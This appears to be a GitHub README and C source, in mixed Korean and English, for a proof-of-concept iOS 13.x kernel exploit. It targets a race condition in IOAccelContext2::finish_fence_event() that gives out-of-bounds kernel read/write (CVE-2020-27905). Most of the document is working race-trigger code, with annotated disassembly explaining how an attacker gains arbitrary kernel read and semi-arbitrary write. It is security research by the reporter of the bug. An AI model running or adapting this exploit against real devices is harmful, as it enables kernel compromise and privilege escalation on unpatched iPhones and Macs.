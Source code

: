 ## oob_events

#저자commnet

I've updated oob_events exploit and it should work fine 
in on A12+ devices (with 60 % of success rate) and ~95% in devices with lower ram size i.e A10.
Tested on iPhone 11 and iPhone 7.

다음은 PoC 커널 익스플로잇으로, iOS 13.7에서 커널 작업 포트를 얻는 방법을 보여줍니다. 
나중에 PoC를 작성하여 업데이트하겠습니다.


개인 장치에서 사용하거나 탈옥에 사용하지 않는 것이 좋습니다. 
장치가 불안정한 상태가 될 수 있습니다
I dont recommend using it in your personal device or to use it for a jailbreak. 
it may leave your device in unstable state. You’ve been warned.


arm64e의 익스플로잇은 iPhone 9,3 (9/10배 작동)과 달리
그다지 안정적이지 않으며 많은 커널 패닉이 예상되며 약간의 작업이
필요하고 이러한 익스플로잇을 일반화하고 모든 장치에서 작동하기는 어렵습니다.


IOGPU 제품군(IOAcceleratorFamily의 후속 제품)과 
함께 제공되는 iOS 14.1을 확인했지만 버그를 유발하는 
일치하는 패턴을 찾지 못했기 때문에 iOS 13.x 및 
IOAcceleratorFamily를 사용하는 모든 장치(예: macOS)에서만 작동합니다.

## oob_events.c
## IOAccelContext2::finish_fence_event() race condition OOB read/write
```
#if 0
IOAccelContext2::finish_fence_event() race condition OOB read/write

This is a method exposed to user space, it takes a kernel read-only shared memory
(type 2 via clientMemoryForType())  address and treats it as an IOAccelEvents Array.

The user supplied index is checked against the IOAccelEvents array bounds,since there are no
locks held in this method,it is possible to change the array bounds by calling
IOAccelContext2::clientMemoryForType() again in a separate thread, this will expand the size by
multiplying the older size by 2, but we still have a reference to the old shared memory address
with the size of the new one.Therefore, we created a condition where the scalar index is checked
against the new array size but we still have the old shared array reference.
From this condition,we can make IOAccelEvents array points to an arbitrary location, thus perform arbitrary
kernel read and semi-arbitrary kernel write.

fffffff0061f7fa4  ldr        x8,[x0, #0x6a8] .       // x8 takes a reference to shmem_addr but not atomically  
fffffff0061f7fa8  cbz        x8,LAB_fffffff0061f8010
fffffff0061f7fac  mov        x20,x0
fffffff0061f7fb0  ldr        w9,[x0, #0x6d8] .      
fffffff0061f7fb4  cmp        w1,w9, LSR #0x6 .       // scalar input is checked against the array bounds,
fffffff0061f7fb8  b.cs       LAB_fffffff0061f8020
....
fffffff0061f7fd4  blr        x8=>IOAccelEventMachineFast2::finishEventUnlocked                        

By completely controlling the IOAccelEvents content, we can perform multiple memory read/writes,
as shown in the disassembly below :

IOAccelEventMachineFast2::finishEventUnlocked()
LAB_fffffff00620e0c0                            XREF[1]:     fffffff00620e20c(j)  
    fffffff00620e0c0  ldr        x23,[x19, x26, LSL #0x3]
    fffffff00620e0c4  cmn        w23,#0x1
    fffffff00620e0c8  b.eq       LAB_fffffff00620e204
    fffffff00620e0cc  lsr        x22,x23,#0x20
    fffffff00620e0d0  smaddl     x25,w23,w28,x21  // x25 will point to arbitrary address , we completely control w23
    fffffff00620e0d4  ldr        w8,[x25, #0xf0]!  
    fffffff00620e0d8  sub        w8,w22,w8
    fffffff00620e0dc  cmp        w8,#0x1
    fffffff00620e0e0  b.lt       LAB_fffffff00620e204
    fffffff00620e0e4  sxtw       x24,w23
    fffffff00620e0e8  ldr        x8,[x21, #0x28] .  
    fffffff00620e0ec  ldr        x8,[x8, x24, LSL #0x3]
    fffffff00620e0f0  ldr        w8,[x8]   // OOB read since x24 is user controlled
    fffffff00620e0f4  str        w8,[x25]  // <---- OOB write


#endif
#include "client.h"

int start= 0;


io_connect_t iokit_get_connection(const char *name,u32 type)
{
    kern_return_t kr = KERN_SUCCESS;
    io_connect_t conn = MACH_PORT_NULL;
    io_service_t service  = IOServiceGetMatchingService(kIOMasterPortDefault,
                                                        IOServiceMatching(name));
    if (service == IO_OBJECT_NULL) {
        printf("unable to find service \n");
        exit(0);
    }

    kr = IOServiceOpen(service, mach_task_self(), type, &conn);
    //CHECK_MACH_ERR(kr,"IOServiceOpen");
    return conn;
}

void map_memory(io_connect_t c,u32 type, void *addr,size_t *size)
{
    kern_return_t kr = IOConnectMapMemory(c, type, mach_task_self(), (mach_vm_address_t *)addr, &size, 1);
    assert(kr == KERN_SUCCESS);
}


void s_finish_fence_event(io_connect_t c,u64 scalar0)
{
    int selector = 5;
    
    kern_return_t kr = IOConnectCallMethod(c, selector, (void*)&scalar0,1,
                 NULL, 0,
                 NULL, NULL,
                 NULL, NULL);

}

void *do_finish_fence_event(void *arg)
{
    io_connect_t c = *(io_connect_t *) arg;
    while(!start){}
    
    s_finish_fence_event(c, 0x100);
    return NULL;
}

void *do_map_memory(void *arg)
{
    io_connect_t c = *(io_connect_t *) arg;
    while(!start){}
    mach_vm_address_t addr = 0;
    mach_vm_size_t size = 0x0;
    
    //pthread_yield_np();
    map_memory(c,2,&addr,&size);
    return NULL;
}
#define THREADS 0x2
pthread_t ths[THREADS];

void doit(void)
{
    printf("Winning Race \n");
    
    while(1) {
        io_connect_t c = iokit_get_connection("IOGraphicsAccelerator2", 0);
        io_connect_t agxsh = iokit_get_connection("IOGraphicsAccelerator2", 2);
       
        IOConnectAddClient(c,agxsh);
        mach_vm_address_t addr = 0;
        mach_vm_size_t size = 0x0;
    
        char *ptr = (char *)addr;
        map_memory(c,2,&addr,&size);
    
        map_memory(c,0,&addr,&size);
        memset(addr,0xcc,0x4000);
        map_memory(c,1,&addr,&size);
        memset(addr,0x41,0x4000);

        u64 value = ((u64)0x41414141 << 0x20) | 0x42424242;
        memcpy(addr,&value,0x8);
        int thc = 1;
        pthread_t th[thc];

        for(int i=0; i< thc; i++) {
            pthread_create(&th[i],NULL,do_map_memory,(void *)&c);
        }
        for(int i=0; i< THREADS; i++) {
        
            pthread_create(&ths[i],NULL,do_finish_fence_event,(void *)&c);
        }
        
        start = 1;
        for(int i=0; i< THREADS; i++) {
            pthread_join(ths[i],NULL);

        }
        for(int i=0; i< thc; i++) {
            pthread_join(th[i],NULL);
        }
        IOServiceClose(c);
        IOServiceClose(agxsh);
    }

}
```

# 설명
The exploit uses two distinct vulnerabilities which I independently discovered and reported to Apple, CVE-2020-27905 which is a race condition leads to OOB read/write  via arbitrary 32-bit index,and CVE-2020-9964 which is a kernel  information leak bug.
